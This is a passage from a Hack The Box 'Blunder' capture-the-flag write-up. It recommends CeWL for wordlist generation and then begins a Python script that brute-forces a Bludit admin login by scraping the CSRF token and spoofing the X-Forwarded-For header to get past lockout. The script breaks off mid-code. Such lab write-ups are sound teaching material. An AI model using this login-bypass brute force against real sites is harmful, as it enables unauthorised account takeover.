 matter. I did not use John because in the writeup, I saw that the dude wrote a perfectly fine and really simple python script that would connect to the target on port 80 and try and bruteforce the username.<br />But beforehand, he used a tool called CeWL!<br /> <br />CeWL is really cool. It spiders a given url and returns suggested passwords to try on crackers like John.<br /><img src="images/4-7.png" alt="images/4-7.png" /><br /><br />from the writeup:<br /><img src="images/4-8.png" alt="images/4-8.png" /><br /><br />note that you should change <a href="http://blunder.htb/">http://blunder.htb/</a> to
http://10.10.10.191/<br /><br /><br /><div class="codebox"><div class="codebox"><span style="color:#0088ff;font-weight:400">#!/usr/bin/env&nbsp;python3</span><br /><span style="color:#333333;font-weight:400">import</span>&nbsp;re<br /><span style="color:#333333;font-weight:400">import</span>&nbsp;requests<br /><span style="color:#0088ff;font-weight:400">#from&nbsp;__future__&nbsp;import&nbsp;print_function</span><br /><br />def&nbsp;open_ressources(file_path):<br />&nbsp;&nbsp;&nbsp;&nbsp;return&nbsp;[item.replace(<span style="color:#3ad900;font-weight:400">"\n"</span>,&nbsp;<span style="color:#3ad900;font-weight:400">""</span>)&nbsp;for&nbsp;item&nbsp;in&nbsp;open(file_path).readlines()]<br /><br />host&nbsp;=&nbsp;<span style="color:#3ad900;font-weight:400">'http://10.10.10.191'</span><br />login_url&nbsp;=&nbsp;host&nbsp;+&nbsp;<span style="color:#3ad900;font-weight:400">'/admin/login'</span><br />username&nbsp;=&nbsp;<span style="color:#3ad900;font-weight:400">'fergus'</span><br />wordlist&nbsp;=&nbsp;open_ressources(<span style="color:#3ad900;font-weight:400">'/home/Hackthebox/Blunder/wordlist.txt'</span>)<br /><br />for&nbsp;password&nbsp;in&nbsp;wordlist:<br />&nbsp;&nbsp;&nbsp;&nbsp;session&nbsp;=&nbsp;requests.Session()<br />&nbsp;&nbsp;&nbsp;&nbsp;login_page&nbsp;=&nbsp;session.get(login_url)<br />&nbsp;&nbsp;&nbsp;&nbsp;csrf_token&nbsp;=&nbsp;re.search(<span style="color:#3ad900;font-weight:400">'input.+?name="tokenCSRF".+?value="(.+?)"'</span>,&nbsp;login_page.text).group(<span style="color:#ff0044;font-weight:400">1</span>)<br /><br />&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#ff9d00;font-weight:700">print</span>(<span style="color:#3ad900;font-weight:400">'[*]&nbsp;Trying:&nbsp;{p}'</span>.format(p&nbsp;=&nbsp;password))<br /><br />&nbsp;&nbsp;&nbsp;&nbsp;headers&nbsp;=&nbsp;{<br />&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#3ad900;font-weight:400">'X-Forwarded-For'</span>:&nbsp;password,<br />&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#3ad900;font-weight:400">'User-Agent'</span>:&nbsp;<span style="color:#3ad900;font-weight:400">'Mozilla/5.0&nbsp;(X11;&nbsp;Linux&nbsp;x86_64)&nbsp;AppleWebKit/537.36&nbsp;(KHTML,&nbsp;like&nbsp;Gecko)&nbsp;Chrome/77.0.3865.90&nbsp;Safari/537.36'</span>,